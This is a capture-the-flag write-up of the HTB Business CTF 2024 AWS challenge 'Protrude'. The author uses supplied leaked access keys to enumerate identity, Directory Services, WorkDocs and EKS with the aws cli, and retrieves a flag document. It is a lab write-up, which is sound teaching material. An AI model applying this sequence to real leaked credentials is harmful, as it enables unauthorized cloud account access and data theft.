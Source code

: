 # HTB Business CTF 2024 - The Vault of Hope
HACKTHEBOX puts up this fun yearly CTF in which you join your organizations teamn to solve challenges and compete against other companies security teams.

I enjoy Cloud shenanigans, and so that's where I put my efforts. This is one of the challenges I solved and I thought it would be responsible of me to share my approach as I got good feedback from others folks about it and they found it insightful.

# Protrude Challenge (AWS based)
> [!INFO] Challenge
> We have obtained leaked account pertaining to Vault 101, with suspicion that it may be linked to one of the leaders group. Your task is to enumerate and see if we can infiltrate them internally.

#### The Creds were in a zip file containing a CSV:
##### Access Key ID
```Text
AKIAXYAFLIG2JE6MC2SY
```
##### Secret Access Key
```Text
teWVv0GzIBKS23uozxUGmUH+[...]
```
##### Region name 
```Text
us-east-1
```

# Rabbit Hole 🐇To Flag 🏁 🏆
### What are these creds for?
Searched for "Access Key  Secret access key"  and found this:
- https://docs.aws.amazon.com/cli/latest/userguide/cli-configure-envvars.html
	- https://stackoverflow.com/questions/57550366/what-is-the-aws-access-key-id-aws-secret-access-key
### Installed `awscli` & Exported Credentials to environment variables
- Installed `awscli` , used for running commands with the given credentials
- The `awscli` will check for these environment variables and use them for Auth.   
    
#### Some basic **whoami** type commands:
```Shell
aws sts get-caller-identity
```
```JSON
{
    "UserId": "AIDAXYAFLIG2E6UQ3YIVB",
    "Account": "532587168180",
    "Arn": "arn:aws:iam::532587168180:user/aalmodovar"
}
```
### Permission Enumeration/Checking
Check page for available permissions and tooling.    
    
### Directory Services
Using one of the commands found above via Permission Enumeration, we could list some information about Directory services
As part of the Directory Services, I found it had a URL:
```JSON
"AccessUrl": "vault101.awsapps.com"
```    
#### Tool - aws cli:
 Command for checking this:
```Shell
aws --profile default --region us-east-1 ds describe-directories
```
##### Output
```JSON
aws --profile default --region us-east-1 ds describe-directories
{
    "DirectoryDescriptions": [
        {
            "DirectoryId": "d-9067e0513b",
            "Name": "vault101.wasteland.local",
            "ShortName": "VAULT101",
            "Size": "Small",
            "Alias": "vault101",
            "AccessUrl": "vault101.awsapps.com",
            "DnsIpAddrs": [
                "172.31.87.164",
                "172.31.31.15"
            ],
            "Stage": "Active",
            "LaunchTime": 1714340834.63,
            "StageLastUpdatedDateTime": 1714341253.623,
            "Type": "SimpleAD",
            "VpcSettings": {
                "VpcId": "vpc-0d7b2c5c8509574bd",
                "SubnetIds": [
                    "subnet-0a5022ff1dfdf5518",
                    "subnet-0574f58cd2d4f85ca"
                ],
                "SecurityGroupId": "sg-0bee7f241cef79345",
                "AvailabilityZones": [
                    "us-east-1a",
                    "us-east-1d"
                ]
            },
            "SsoEnabled": true,
            "DesiredNumberOfDomainControllers": 0
        }
    ]
}
```
    
### vault101.awsapps.com
Visited the "AccessUrl": "vault101.awsapps.com".When you visit that endpoint, you are quickly redirected to log in to **WorkDocs**, which is part of the clue.
- I tried accessing the console, by attempting to exchange the **SessionToken** for a **`SigninToken`** using AWS Federation to Access Resources. However, we did not have the necessary permissions 😢   
    
### WorkDocs... 🏁
Doing some WorkDocs recon, I found we had access to list the documents using the aws cli.
#### Tool - aws cli
```Shell
aws workdocs describe-activities --organization-id d-9067e0513b
```
```JSON
{
    "UserActivities": [
        {
            "Type": "DOCUMENT_VERSION_VIEWED",
            "TimeStamp": "2024-05-19T06:15:32.835000-07:00",
            "IsIndirectActivity": false,
            "Initiator": {
                "Id": "S-1-5-21-1692074632-1250882497-497425265-500&d-9067e0513b"
            },
            "ResourceMetadata": {
                "Type": "document",
                "Name": "flag.txt",
                "Id": "5347a27512a4f5a1c0ed4b7e965210deecbb6b806a23034ce799614ca32a8303",
                "Owner": {
                    "Id": "S-1-5-21-1692074632-1250882497-497425265-500&d-9067e0513b"
                }
            }
        }, ...
```
- Listing the documents showed a "flag.txt" file, well many really.

### Getting the flag 🏁!
I leveraged the Id of one of them to retrieve the information and a URL for that document:
```Shell
aws workdocs get-document --document-id 5347a27512a4f5a1c0ed4b7e965210deecbb6b806a23034ce79
```

The document had the 🏁 flag! 🏆

---   
# Rabbit Holes 🐰 to distractions.... 😢
Not everything was so straight forward and I went on a few rabbit holes to no where....

#### Found a way to get an `SessionToken` as well (through the Permission Enumeration)
```Shell
aws --profile default --region us-east-1 sts get-session-token
aws sts get-session-token --duration-seconds 86400
```

#### Found some EKS Credentials!
Through one of the permissions, it gives you the command to get an eks access token. See [[Protrude-eks_enumeration]]
- However, we do not have the URL for the Kubernetes Cluster API Endpoint
- Attempted crafting the URL manually with no luck
- I also tried running the command to get a `kubeconfig` file, but we do not have permissions for that either.

--- 
# Visual of the Attack Path:
This is a visual representation of some of the activities involved with trying to obtain the flag and following the green arrows is the "happy" path to the flag.
![Protrude Attack Path](Protrude_aws.png)
